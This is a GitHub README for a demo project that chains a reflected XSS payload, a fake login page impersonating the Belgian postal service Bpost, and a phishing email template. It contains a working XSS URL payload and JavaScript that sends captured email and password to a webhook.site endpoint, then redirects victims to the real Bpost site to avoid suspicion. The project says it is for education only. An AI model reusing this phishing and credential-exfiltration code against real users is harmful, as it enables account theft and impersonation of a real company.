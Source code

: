 
# XSS Bpost Demo 🚨

This project demonstrates a realistic Reflected XSS (Cross-Site Scripting) attack in a simulated delivery tracking scenario, mimicking the Belgian postal service Bpost. It includes a phishing login page, a fake email, and a redirection to the real Bpost site after credential capture.

---

## 📁 Project Structure

```
xss-bpost-demo/
│
├── index.html           # Main vulnerable tracking page (XSS injection via `trackid` parameter)
├── fake-login.html      # Fake login page (captures credentials and sends them to webhook)
├── fake-email.html      # Phishing email page (HTML standalone preview)
└── README.md            # This documentation file
```

---

## 🎯 Objective

Demonstrate a full XSS chain including:

1. **Reflected XSS** injection via URL parameter.
2. Auto-redirection to a **fake login page**.
3. Capture of **user credentials** to a webhook (e.g. webhook.site).
4. Redirection to the **official Bpost website** to maintain user trust.

---

## 🧪 Reflected XSS Injection

Open in browser (local server must be running):

```
http://localhost:8000/index.html?trackid=<script>window.location.href='fake-login.html'</script>
```

This injects a script that redirects the user to the phishing login page.

---

## 🕵️‍♀️ Fake Login Page

`fake-login.html` contains a simple login form that:

- Accepts `email` and `password`
- Sends credentials to a webhook endpoint (e.g., [Webhook.site](https://webhook.site))
- Redirects the user to the real Bpost site (`https://track.bpost.cloud/btr/web/#/search`) after login

The script used in `fake-login.html`:

```javascript
const form = document.querySelector("form");
form.addEventListener("submit", (e) => {
    e.preventDefault();
    const email = document.getElementById("email").value;
    const password = document.getElementById("password").value;

    fetch("[https://webhook.site/your-custom-ur](https://webhook.site/b729d597-59d8-44da-948a-383d7d9a90bb)l", {
        method: "POST",
        body: JSON.stringify({ email, password }),
        headers: { "Content-Type": "application/json" }
    }).then(() => {
        window.location.href = "https://track.bpost.cloud/btr/web/#/search";
    });
});
```

> Replace the webhook URL with your own unique one from webhook.site.

---

## ✉️ Fake Email Template

`fake-email.html` simulates a phishing email stating:

- The delivery failed
- The user must click a button to reschedule

Button link leads to the vulnerable `index.html` page with XSS payload injected.

---

## 📸 Screenshots

- Fake email preview (HTML)
- Phishing login interface (mimics Bpost)
- Webhook request showing credentials captured
- Optional: Chrome DevTools with injected URL

---

## ⚠️ Legal Disclaimer

Made by Jessica (2025)
This project is for educational and ethical hacking demonstrations **only**.
Do not deploy this code against real services or users. Always have authorization.

---

Made by Jessica (2025)
